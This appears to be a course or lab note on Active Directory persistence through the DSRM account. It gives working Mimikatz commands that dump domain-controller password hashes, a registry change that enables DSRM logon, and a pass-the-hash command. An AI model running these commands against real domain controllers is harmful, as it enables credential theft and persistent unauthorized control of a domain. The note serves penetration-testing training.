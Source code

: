 # 8.5 - DSRM

### DSRM (Directory Services Restore Mode)

**DSRM** is a special local administrator account that exists **on every Domain Controller**, primarily used for recovery.

***

#### Key Concepts

* The `Administrator` account in **DSRM** mode is local to the DC.
* Its password is defined **during promotion to Domain Controller** and **rarely changed**.
* If the **NTLM hash** of this account is obtained, it can be used to authenticate **against the DC**.
* By default, this account cannot log on when the DC is online—**a registry modification is needed**.

***

#### Dump the DSRM Password Hash

Requires **Domain Admin** privileges:

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc
```

Then compare with:

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc
```

* The **Administrator hash from `lsadump::sam`** is the **DSRM local admin**.
* The other is the **domain `Administrator`**.

***

#### Enable DSRM Logon

To allow the DSRM account to log on **even when the DC is online**, you must set the following registry key on the DC:

```powershell
Enter-PSSession -ComputerName dcorp-dc
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

* `Value 2` means the DSRM admin can log in **regardless of Safe Mode**.

***

#### Pass-the-Hash (DSRM Access)

Use Mimikatz to authenticate as the **local DSRM administrator** via pass-the-hash:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

Then verify access:

```powershell
ls \\dcorp-dc\C$
```

&#x20;A useful persistence mechanism when no domain accounts can be created or controlled.

### Labs

* [Learning Object 11 lab](../lab/11-lo1-1.md)
